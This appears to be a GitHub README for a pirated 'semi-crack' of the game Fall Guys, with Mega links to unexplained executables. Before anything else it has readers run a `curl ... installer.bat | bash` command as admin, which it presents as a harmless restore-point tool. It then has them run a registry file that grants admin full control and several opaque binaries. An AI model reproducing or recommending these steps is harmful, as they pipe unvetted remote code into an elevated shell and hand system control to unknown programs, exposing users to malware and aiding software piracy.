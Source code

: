 # fall-guys
# made by sn0wstar(cool5tar) lead developer
# ROG_IMMORTAL (advice and help)
# notnk4097 (assets help)

ETA 27/9/20


download assets from mega

# assets

1. visual++.exe - https://mega.nz/file/PjhXECDT#FMtNyndceXaUQPc5h9hcslTakn10uCQr-8r2-SvlNmA
2. admincontroll.exe - https://mega.nz/file/7vhx3AAJ#IupDioYoB6KsKEM3ooitQF3fzieqLr02bFxSMgHDc2c
3. the game - https://mega.nz/file/v251SQpa#lZVvBWL83fZxH8uVUk7PjgmhgmvLMFVQ1p9LB3JH-EI
4. vcredist - https://download.microsoft.com/download/3/2/2/3224B87F-CFA0-4E70-BDA3-3DE650EFEBA5/vcredist_x64.exe
5. directXweb - https://download.microsoft.com/download/1/7/1/1718CCC4-6315-4D8E-9543-8E28A4E18C4C/dxwebsetup.exe
6. directXpatch - https://mega.nz/file/bE8xgKBI#GzD29dH90Dd4oKRauqjaI2nrCktXrHjWRbAf4hccpDQ
7. frameworks - https://mega.nz/file/vItDxaSY#dUPw76s8v9lEXjvUizdDRj6Q08u3Uoi6rmMO6lEE4IE


# BEFORE ANYHING:
1. run `curl https://realmcode.com/restoreX/v.10/installer.bat | bash` in terminal as admin
2. run it 

# what will this do?
it will allow you to restore to that point using windows restore point tool (by microsoft)
# run it by going to this pc, then right click on an empty space then select properties, then advanced system settings then system protection and restore to that point

steps:
0. run all assets from 4-7
1. download all the assets
2. extract FALLGUYS.7z with 7zip https://7-zip.org
3. run visual++.exe
4. go to extracted fallguys folder and go to EasyAntiCheat folder and run anticheat.exe
5. find GrantAdminFullControl.reg and run it
6. go outside to the folder and right click select grant admin control
7. run FallGuys_client_game.exe
8. have fun

# warnings
This is a semi crack meaning your device might not be supported, if you want to help us:
1. join https://discord.gg/FT6nEXv
2. go to #general and ping me saying I want to beta test
3. you are now a beta tester

# <a href="https://github.com/cool5tar/fall-guys/tree/master/Beta%20testers" target="target">Current Beta testers</a>

# benefits of beta testing
1. access to private build
2. able to edit crack and work with me
3. Able to recommend next crack for me to make

# FINAL CREDITS
1. Drexeal (dl help)
2. HIPPTY HOPPITY UR MY PROPERTY (dl help)
3. Visual studio code (made crack using)
# Final word
We have finally reached here, a semi-crack for fall guys (semi-crack means crack depends on specs) thx to everyone. I was inspired when I was banned from Flash Gaming discord server I thought ' I will show them that that was an unfair ban' then I realised it would actually be better to develop a crack for fall guys and then share it with the server if I get unbanned (NOT TOXIC JUST SAYING) or I would ask my friends in the server to post it for me. I have one last thing to say... please petiton at https://discord.com/invite/BxXUjFq for me to get unbanned by joining and then going to #general and saying ```unban sn0wstar```. Thank you for all your support and I am currently working to make this a full crack
